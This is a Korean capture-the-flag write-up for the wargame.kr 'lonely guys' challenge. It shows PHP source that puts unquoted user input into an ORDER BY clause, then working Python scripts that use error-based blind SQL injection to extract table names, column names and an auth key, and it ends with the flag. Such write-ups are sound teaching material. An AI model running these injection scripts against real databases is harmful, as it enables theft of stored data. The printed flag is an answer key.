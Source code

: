 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-00-37-22.png)

# **Write-Up**

이상한 테이블 표가 나온다.

![](images/2022-01-03-00-37-42.png)

소스를 보면 sort라는 변수에 POST로 데이터를 실어보낸다. 쿼리 결과가 row[2]까지 있는 걸 보니, 적어도 3개의 컬럼이 존재하는 것을 알 수 있다.

```php
... 생략 ...
if(isset($_POST['sort'])){
 $sort=$_POST['sort'];
}else{
 $sort="asc";
}
... 생략 ...
     <?php
      mysql_query("update authkey set authkey='".auth_code('lonely guys')."'");
      $sort = mysql_real_escape_string($sort);
      $result=mysql_query("select * from guys_tbl order by reg_date $sort");
      while($row=mysql_fetch_array($result)){
       echo "<tr><td>$row[1]</td><td>$row[2]</td></tr>";
      }
... 생략 ...
```

ORDER BY절에 사용자 입력 값이 들어가는 데, 컬럼 수를 변경하여 쿼리 실패, 성공에 대한 반환 값을 확인한다.

```python
# 쿼리 성공
import urllib
import urllib.request

url     = 'http://wargame.kr:8080/lonely_guys/'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
params  = urllib.parse.urlencode({'sort':', 2, 3, 3'}).encode()
request = urllib.request.Request(url, headers = headers, data = params)
response= urllib.request.urlopen(request)
print(response.read().decode())

[Output]
... 생략 ...
<tbody>
<tr><td>jacob</td><td>2010-07-22</td></tr><tr><td>jae-yong</td><td>2014-06-19</td></tr><tr><td>chul-su</td><td>couple</td></tr><tr><td>michael</td><td>couple</td></tr><tr><td>min-su</td><td>couple</td></tr>
</tbody>
... 생략 ...

# 쿼리 실패
import urllib
import urllib.request

url     = 'http://wargame.kr:8080/lonely_guys/'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
params  = urllib.parse.urlencode({'sort':', 2, 3, 4'}).encode()
request = urllib.request.Request(url, headers = headers, data = params)
response= urllib.request.urlopen(request)
print(response.read().decode())

[Output]
... 생략 ...
<tbody>
</tbody>
... 생략 ...
```

ORDER BY절에서 (select 1)과 같이 쿼리를 사용할 수 있다.

```sql
create table Test(id integer, title varchar(100));
insert into Test(id, title) values(1, "a");
insert into Test(id, title) values(2, "b");
select * from Test ORDER BY id, (select 1);

[Output]
id	title
1	a
2	b
```

하지만 쿼리절의 결과가 2개 행 이상일 경우 쿼리가 실패한다. 이 점을 이용하여 BlindSQLi를 시도한다.

```sql
create table Test(id integer, title varchar(100));
insert into Test(id, title) values(1, "a");
insert into Test(id, title) values(2, "b");
select * from Test ORDER BY id, (select id from Test);

[Output]
ERROR 1242 (21000) at line 5: Subquery returns more than 1 row
```

쿼리의 조합은 다음과 같다.

1. 테이블, 컬럼, 데이터를 알아오는 쿼리는 wargame.kr의 ip log table에서 사용했던 쿼리를 재사용한다.

    - select ord(substr(~ limit 0, 1), 1, 1)

2. 1번의 쿼리 결과와 ASCII code의 hex값과 맞는 지 확인한다.

    - IF("ASCII hex"="1번 쿼리", 1, 2)

3. 2번 쿼리가 참일 경우 1을 반환하고, 실패할 경우 2를 반환하는 점을 이용하여 where절로 true 혹은 false를 유도한다.

    - select reg_date from guys_tbl where 1="2번 쿼리의 결과"

4. 즉 ASCII hex값이 있다면, red_date가 뽑혀 쿼리를 실패하고, 없다면 쿼리가 성공되어 \<tbody\>내 데이터가 들어있을 것이다.

쿼리를 조합하여 다음과 같은 Python script를 작성하여 테이블명을 알아낸다. (오래 걸리니, ip log table에서 알아낸 순번 정도(약 70번 근처)로 대강 잡는다.)

```python
import urllib
import urllib.request

url     = 'http://wargame.kr:8080/lonely_guys/'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}

start_num = 70
for i in range(start_num, start_num+20):
    table_name = ''
    for j in range(1, 50):
        old_len = len(table_name)
        for ascii_hex_value in range(32, 127):
            params  = urllib.parse.urlencode({'sort':', (select reg_date from guys_tbl where 1=IF({0}=(select ord(substr((select table_name from information_schema.tables limit {1},1),{2},1))), 1, 2))'.format(ascii_hex_value, i, j)}).encode()
            request = urllib.request.Request(url, headers = headers, data = params)
            try:
                response        = urllib.request.urlopen(request)
                if 'jacob' not in response.read().decode():
                    table_name += chr(ascii_hex_value)
                    break
            except Exception as e:
                print(e)
        if old_len == len(table_name): break
    if table_name == '': break
    print('[{}] {}'.format(i, table_name))

[Output]
[70] authkey
[71] guys_tbl
```

소스코드상의 authkey와 일치하여 컬럼 명까지는 알아내지 않아도 괜찮을것 같지만 혹시 모르니 컬럼명도 알아낸다.

```python
... 생략 ...
start_num = 690
... 생략 ...
            params  = urllib.parse.urlencode({'sort':', (select reg_date from guys_tbl where 1=IF({0}=(select ord(substr((select column_name from information_schema.columns limit {1},1),{2},1))), 1, 2))'.format(ascii_hex_value, i, j)}).encode()
... 생략 ...

[Output]
[690] IO_FIX
[691] IS_OLD
[692] FREE_PAGE_CLOCK
[693] space_id
[694] page_id
[695] start_lsn
[696] end_lsn
[697] authkey
[698] idx
[699] name
[700] reg_date
```

authkey테이블의 authkey컬럼에 들어있는 데이터를 알아낸다.

```python
... 생략 ...
start_num = 0
... 생략 ...
            params  = urllib.parse.urlencode({'sort':', (select reg_date from guys_tbl where 1=IF({0}=(select ord(substr((select authkey from authkey limit {1},1),{2},1))), 1, 2))'.format(ascii_hex_value, i, j)}).encode()
... 생략 ...

[Output]
[0] 5f988cfe64fd6f3b4c31e6cb56421688bda3d88e
```


# **FLAG**

**5f988cfe64fd6f3b4c31e6cb56421688bda3d88e**